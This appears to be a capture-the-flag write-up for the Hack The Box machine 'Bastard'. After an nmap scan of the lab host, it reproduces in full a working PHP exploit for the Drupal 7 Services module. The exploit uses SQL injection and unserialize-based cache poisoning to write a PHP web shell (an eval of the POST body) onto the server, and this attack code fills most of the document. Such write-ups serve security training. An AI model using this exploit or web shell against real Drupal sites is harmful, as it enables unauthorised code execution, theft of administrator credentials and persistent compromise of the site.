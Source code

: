 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
#!/usr/bin/php
<?php
# Drupal Services Module Remote Code Execution Exploit
# https://www.ambionics.io/blog/drupal-services-module-rce
# cf
#
# Three stages:
# 1. Use the SQL Injection to get the contents of the cache for current endpoint
#    along with admin credentials and hash
# 2. Alter the cache to allow us to write a file and do so
# 3. Restore the cache
# 

# Initialization

error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'dixuSOspsOUU.php',
    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
];

$browser = new Browser($url . $endpoint_path);


# Stage 1: SQL Injection

class DatabaseCondition
{
    protected $conditions = [
        "#conjunction" => "AND"
    ];
    protected $arguments = [];
    protected $changed = false;
    protected $queryPlaceholderIdentifier = null;
    public $stringVersion = null;

    public function __construct($stringVersion=null)
    {
        $this->stringVersion = $stringVersion;

        if(!isset($stringVersion))
        {
            $this->changed = true;
            $this->stringVersion = null;
        }
    }
}

class SelectQueryExtender {
    # Contains a DatabaseCondition object instead of a SelectQueryInterface
    # so that $query->compile() exists and (string) $query is controlled by us.
    protected $query = null;

    protected $uniqueIdentifier = QID;
    protected $connection;
    protected $placeholder = 0;

    public function __construct($sql)
    {
        $this->query = new DatabaseCondition($sql);
    }
}

$cache_id = "services:$endpoint:resources";
$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

# Take first user but with a custom password
# Store the original password hash in signature_format, and endpoint cache
# in signature
$query = 
    "0x3a) UNION SELECT ux.uid AS uid, " .
    "ux.name AS name, '$password_hash' AS pass, " .
    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
    "ux.pass AS signature_format, ux.created AS created, " .
    "ux.access AS access, ux.login AS login, ux.status AS status, " .
    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
    "WHERE ux.uid<>(0"
;

$query = new SelectQueryExtender($query);
$data = ['username' => $query, 'password' => 'ouvreboite'];
$data = serialize($data);

$json = $browser->post(TYPE_PHP, $data);

# If this worked, the rest will as well
if(!isset($json->user))
{
    print_r($json);
    e("Failed to login with fake password");
}

# Store session and user data

$session = [
    'session_name' => $json->session_name,
    'session_id' => $json->sessid,
    'token' => $json->token
];
store('session', $session);

$user = $json->user;

# Unserialize the cached value
# Note: Drupal websites admins, this is your opportunity to fight back :)
$cache = unserialize($user->signature);

# Reassign fields
$user->pass = $user->signature_format;
unset($user->signature);
unset($user->signature_format);

store('user', $user);

if($cache === false)
{
    e("Unable to obtains endpoint's cache value");
}

x("Cache contains " . sizeof($cache) . " entries");

# Stage 2: Change endpoint's behaviour to write a shell

class DrupalCacheArray
{
    # Cache ID
    protected $cid = "services:endpoint_name:resources";
    # Name of the table to fetch data from.
    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
    protected $bin = 'cache';
    protected $keysToPersist = [];
    protected $storage = [];

    function __construct($storage, $endpoint, $controller, $action) {
        $settings = [
            'services' => ['resource_api_version' => '1.0']
        ];
        $this->cid = "services:$endpoint:resources";

        # If no endpoint is given, just reset the original values
        if(isset($controller))
        {
            $storage[$controller]['actions'][$action] = [
                'help' => 'Writes data to a file',
                # Callback function
                'callback' => 'file_put_contents',
                # This one does not accept "true" as Drupal does,
                # so we just go for a tautology
                'access callback' => 'is_string',
                'access arguments' => ['a string'],
                # Arguments given through POST
                'args' => [
                    0 => [
                        'name' => 'filename',
                        'type' => 'string',
                        'description' => 'Path to the file',
                        'source' => ['data' => 'filename'],
                        'optional' => false,
                    ],
                    1 => [
                        'name' => 'data',
                        'type' => 'string',
                        'description' => 'The data to write',
                        'source' => ['data' => 'data'],
                        'optional' => false,
                    ],
                ],
                'file' => [
                    'type' => 'inc',
                    'module' => 'services',
                    'name' => 'resources/user_resource',
                ],
                'endpoint' => $settings
            ];
            $storage[$controller]['endpoint']['actions'] += [
                $action => [
                    'enabled' => 1,
                    'settings' => $settings
                ]
            ];
        }

        $this->storage = $storage;
        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
    }
}

class ThemeRegistry Extends DrupalCacheArray {
    protected $persistable;
    protected $completeRegistry;
}

cache_poison($endpoint, $cache);

# Write the file
$json = (array) $browser->post(TYPE_JSON, json_encode($file));


# Stage 3: Restore endpoint's behaviour

cache_reset($endpoint, $cache);

if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
{
    e("Failed to write file.");
}

$file_url = $url . '/' . $file['filename'];
x("File written: $file_url");


# HTTP Browser

class Browser
{
    private $url;
    private $controller = CONTROLLER;
    private $action = ACTION;

    function __construct($url)
    {
        $this->url = $url;
    }

    function post($type, $data)
    {
        $headers = [
            "Accept: " . TYPE_JSON,
            "Content-Type: $type",
            "Content-Length: " . strlen($data)
        ];
        $url = $this->url . '/' . $this->controller . '/' . $this->action;

        $s = curl_init(); 
        curl_setopt($s, CURLOPT_URL, $url);
        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
        curl_setopt($s, CURLOPT_POST, 1);
        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
        $output = curl_exec($s);
        $error = curl_error($s);
        curl_close($s);

        if($error)
        {
            e("cURL: $error");
        }

        return json_decode($output);
    }
}

# Cache

function cache_poison($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
    cache_edit($tr);
}

function cache_reset($endpoint, $cache)
{
    $tr = new ThemeRegistry($cache, $endpoint, null, null);
    cache_edit($tr);
}

function cache_edit($tr)
{
    global $browser;
    $data = serialize([$tr]);
    $json = $browser->post(TYPE_PHP, $data);
}

# Utils

function x($message)
{
    print("$message\n");
}

function e($message)
{
    x($message);
    exit(1);
}

function store($name, $data)
{
    $filename = "$name.json";
    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
    x("Stored $name information in $filename");
}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
